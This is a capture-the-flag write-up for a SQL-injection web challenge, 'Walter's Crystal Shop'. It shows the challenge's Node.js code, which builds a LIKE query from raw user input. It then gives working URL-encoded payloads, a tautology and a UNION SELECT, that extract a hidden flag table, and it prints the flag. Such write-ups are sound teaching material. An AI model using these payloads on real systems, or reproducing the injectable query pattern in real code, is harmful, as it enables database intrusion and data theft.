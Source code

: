 ```yaml
---
layout: writeup
category: Newport-Blake-CTF-2023
chall_description: https://i.imgur.com/32n7io7.png
points: 241
solves: 162
tags: web SQLi sql-union
date: 12-4-2023
comments: false
---
```


My buddy Walter is selling some crystals, check out his shop!  

[walters-crystal-shop.chal.nbctf.com](walters-crystal-shop.chal.nbctf.com)  

[walters_crystal_shop.zip](https://github.com/Nightxade/ctf-writeups/assets/CTFs/Newport-Blake-CTF-2023/web/walters_crystal_shop.zip)  

---

The source includes an `app.js` file. Here it is:  

```js
const express = require("express");
const sqlite3 = require("sqlite3");
const fs = require("fs");

const app = express();
const db = new sqlite3.Database(":memory:");

const flag = fs.readFileSync("./flag.txt", { encoding: "utf8" }).trim();
const crystals = require("./crystals");

db.serialize(() => {
  db.run("CREATE TABLE crystals (name TEXT, price REAL, quantity INTEGER)");

  const stmt = db.prepare("INSERT INTO crystals (name, price, quantity) VALUES (?, ?, ?)");

  for (const crystal of crystals) {
    stmt.run(crystal["name"], crystal["price"], crystal["quantity"]);
  }
  stmt.finalize();

  db.run("CREATE TABLE IF NOT EXISTS flag (flag TEXT)");
  db.run(`INSERT INTO flag (flag) VALUES ('${flag}')`);
});

app.get("/crystals", (req, res) => {
  const { name } = req.query;

  if (!name) {
    return res.status(400).send({ err: "Missing required fields" });
  }

  db.all(`SELECT * FROM crystals WHERE name LIKE '%${name}%'`, (err, rows) => {
    if (err) {
      console.error(err.message);
      return res.status(500).send('Internal server error');
    }

    return res.send(rows);
  });
});

app.get("/", (req, res) => {
  res.sendfile(__dirname + "/index.html");
});

app.listen(3000, () => {
  console.log("Server listening on port 3000");
});
```

The site seems to use SQLite3 for its database services. There also seems to be zero filtering for the SQL query. SQL Injection perhaps?  

I first tested with the following payload:  

    'OR%201=1-- 

And this is actually returned all crystals!  

So SQL injection works, but we need to access the `flag` table, not the `crystals` table. Maybe we can just construct a UNION attack?  

For those who don't know, a UNION attack is essentially an SQL injection that uses the UNION keyword to select elements from another table. All that you have to keep in mind is to match the number of categories used by the original selection, i.e. 3 in this case sinde 3 categories are selected from the `crytals` table. Therefore, the following payload should get the flag:  

    'UNION%20SELECT%20flag,NULL,NULL%20FROM%20flag--

Send the payload in and retrieve the flag!  

    nbctf{h0p3fuLLy_7h3_D3A_d035n7_kn0w_ab0ut_th3_0th3r_cRyst4l5}